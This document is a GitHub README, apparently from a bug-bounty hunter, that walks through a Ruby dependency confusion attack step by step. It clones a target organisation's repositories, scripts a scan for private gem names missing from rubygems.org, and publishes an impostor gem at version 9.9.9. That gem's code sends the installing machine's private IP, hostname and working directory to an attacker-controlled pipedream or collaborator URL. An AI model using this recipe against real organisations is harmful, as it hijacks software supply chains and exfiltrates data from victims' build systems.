 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/ruby_dependency_confusion_attacks/assets/85815644/0b65137c-72e8-4003-b4b1-265cd25a37bd"></a>
<h1 align="center">Ruby Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>
  
  
## How to Finds & How to Exploit
    
Finds Gemfile then check the all require here is public or not
    
`https://rubygems.org/gems/`

#### Download all target github repository
 
 - Crate personal access tokens (classic) - https://github.com/settings/tokens 
 - Install ghorg - https://github.com/gabrie30/ghorg#installation
    
 ```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone microsoft -t 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`
    
- After Download all repository finds vulnerable ruby package 
    
```bash
$ find . -type f -name Gemfile | xargs -n1 -I{} cat {} | awk '/gem / {print}' | awk '{print $2;}' | tr -d '"' | tr -d ",'" | sort -u | xargs -n1 -I{} echo "https://rubygems.org/gems/{}" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly, so this the vulnerable to dependencies confusion attack.
    
- Then must be cross checking using github dorking - `org:microsoft package_name`
    
- So now Publish this ruby packages publicly (https://rubygems.org)
    
```bash
$ bundle gem <package_name>
```
- Everything set default
    
```bash
$ cd <package_name>
```
```bash
$ nano <package_name>.gem
```
- Replaced -
    
    ```bash
    Gem::Specification.new do |s|
      s.name        = "<package_name>"
      s.version     = "9.9.9"
      s.summary     = "Vulnerability Disclosure: Dependency confiuse vulnerability"
      s.description = "This Ruby package vulnerable to dependency confiuse vulnerability"
      s.authors     = ["<Anindya Ghoshal>"]
      s.email       = "<techghoshal@gmail.com>"
      s.files       = ["lib/<package_name>.rb"]
      s.homepage    =
        "https://rubygems.org/gems/<package_name>"
      s.license       = "MIT"
   end
   ```
 - Save this file
 
 ```bash
 $ cd lib
 ```
 - Replaced -
    
    ```bash
    module <myGem>

        require 'json'
        require 'net/http'
        require 'socket'

        #Private IP
        privip = UDPSocket.open {|s| s.connect("64.233.187.99", 1); s.addr.last}
        #Hostname
        hostname = Socket.gethostname
        #Current directory
        dir = Dir.pwd

        #Pubcli bin url:- https://pipedream.com  OR  burpCollaborate url
        uri = URI('https://<pipedream.net>')
        req = Net::HTTP::Post.new(uri, 'Content-Type' => 'application/json')

        req.body = {
          private_ip: privip,
          hostname: hostname,
          current_directory: dir
        }.to_json

        Net::HTTP.start(uri.hostname, uri.port, :use_ssl => uri.scheme == 'https') do |http|
          http.request(req)
        end
    
    end

    ```
 - Save this file  
 
 ```bash
 $ cd ..
 ```
 ```bash
 $ gem build <package_name>.gemspec
 ```
- Upload file publicly (https://rubygems.org/)

- Create Accont on rubygems.org
    
 ```bash
 $ gem push <package_name>-9.9.9.gem 
 ```
- Enter your Email: `<email>`
- Enter your username: `<username>`
- Enter your password: `<password>`
    
---
    
<b>Upload IS DONE</b> 😎 
- Must be checking - https://rubygems.org/gems/package_name
- 🎉 Now Bounty Time 💰💰
 
## Connect me
If you have any queries, you can always contact me on  <a href="https://twitter.com/techghoshal">twitter(@techghoshal)</a>
    
    
